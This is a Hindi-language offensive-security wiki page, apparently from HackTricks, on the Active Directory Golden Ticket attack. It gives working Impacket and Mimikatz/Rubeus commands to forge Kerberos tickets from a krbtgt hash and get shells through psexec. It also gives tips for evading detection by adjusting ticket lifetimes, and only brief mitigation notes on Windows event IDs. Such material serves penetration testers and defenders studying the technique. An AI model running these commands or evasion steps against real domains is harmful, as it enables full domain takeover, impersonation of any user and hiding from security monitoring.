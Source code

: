 # Golden Ticket

{{#include ../../banners/hacktricks-training.md}}

## Golden ticket

एक **Golden Ticket** हमला **किसी भी उपयोगकर्ता का अनुकरण करते हुए एक वैध Ticket Granting Ticket (TGT) बनाने** पर आधारित है, जो **Active Directory (AD) krbtgt खाते के NTLM हैश** का उपयोग करता है। यह तकनीक विशेष रूप से फायदेमंद है क्योंकि यह **अनुकरण किए गए उपयोगकर्ता के रूप में डोमेन के भीतर किसी भी सेवा या मशीन तक पहुंच** की अनुमति देती है। यह याद रखना महत्वपूर्ण है कि **krbtgt खाते के क्रेडेंशियल्स कभी स्वचालित रूप से अपडेट नहीं होते**।

**krbtgt खाते का NTLM हैश प्राप्त करने** के लिए विभिन्न विधियों का उपयोग किया जा सकता है। इसे **Local Security Authority Subsystem Service (LSASS) प्रक्रिया** या **NT Directory Services (NTDS.dit) फ़ाइल** से निकाला जा सकता है, जो डोमेन के भीतर किसी भी Domain Controller (DC) पर स्थित है। इसके अलावा, **DCsync हमले को निष्पादित करना** इस NTLM हैश को प्राप्त करने की एक और रणनीति है, जिसे **Mimikatz में lsadump::dcsync मॉड्यूल** या **Impacket द्वारा secretsdump.py स्क्रिप्ट** का उपयोग करके किया जा सकता है। यह महत्वपूर्ण है कि इन कार्यों को करने के लिए **डोमेन प्रशासनिक विशेषाधिकार या समान स्तर की पहुंच की आवश्यकता होती है**।

हालांकि NTLM हैश इस उद्देश्य के लिए एक व्यवहार्य विधि के रूप में कार्य करता है, लेकिन **संचालन सुरक्षा कारणों से** **Advanced Encryption Standard (AES) Kerberos कुंजियों (AES128 और AES256) का उपयोग करके टिकटों को बनाना** **काफी अनुशंसित** है।
```bash:From Linux
python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache
python psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
```

```bash:From Windows
#mimikatz
kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
.\Rubeus.exe ptt /ticket:ticket.kirbi
klist #List tickets in memory

# Example using aes key
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:430b2fdb13cc820d73ecf123dddd4c9d76425d4c2156b89ac551efb9d591a439 /ticket:golden.kirbi
```
**एक बार** जब आप **गोल्डन टिकट इंजेक्ट** कर लेते हैं, तो आप साझा फ़ाइलों **(C$)** तक पहुँच सकते हैं, और सेवाओं और WMI को निष्पादित कर सकते हैं, इसलिए आप **psexec** या **wmiexec** का उपयोग करके एक शेल प्राप्त कर सकते हैं (ऐसा लगता है कि आप winrm के माध्यम से शेल प्राप्त नहीं कर सकते)।

### सामान्य पहचान को बायपास करना

गोल्डन टिकट का पता लगाने के सबसे सामान्य तरीके **केर्बेरोस ट्रैफ़िक** की जांच करना हैं। डिफ़ॉल्ट रूप से, Mimikatz **TGT को 10 वर्षों के लिए साइन** करता है, जो इसके साथ किए गए बाद के TGS अनुरोधों में असामान्य के रूप में खड़ा होगा।

`Lifetime : 3/11/2021 12:39:57 PM ; 3/9/2031 12:39:57 PM ; 3/9/2031 12:39:57 PM`

शुरुआत ऑफ़सेट, अवधि और अधिकतम नवीनीकरण (सभी मिनटों में) को नियंत्रित करने के लिए `/startoffset`, `/endin` और `/renewmax` पैरामीटर का उपयोग करें।
```
Get-DomainPolicy | select -expand KerberosPolicy
```
दुर्भाग्यवश, TGT का जीवनकाल 4769 में लॉग नहीं किया गया है, इसलिए आप इस जानकारी को Windows इवेंट लॉग में नहीं पाएंगे। हालाँकि, आप जो सहसंबंधित कर सकते हैं वह है **4769 को बिना पूर्व 4768 के देखना**। यह **TGT के बिना TGS का अनुरोध करना संभव नहीं है**, और यदि TGT जारी होने का कोई रिकॉर्ड नहीं है, तो हम यह निष्कर्ष निकाल सकते हैं कि इसे ऑफ़लाइन तैयार किया गया था।

इस **पता लगाने से बचने के लिए** हीरे के टिकटों की जांच करें:

{{#ref}}
diamond-ticket.md
{{#endref}}

### शमन

- 4624: खाता लॉगिन
- 4672: प्रशासनिक लॉगिन
- `Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List –Property`

रक्षा करने वालों के लिए अन्य छोटे ट्रिक्स हैं **संवेदनशील उपयोगकर्ताओं के लिए 4769 पर अलर्ट करना** जैसे कि डिफ़ॉल्ट डोमेन प्रशासक खाता।

## संदर्भ

- [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
- [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets] (https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets)

{{#include ../../banners/hacktricks-training.md}}
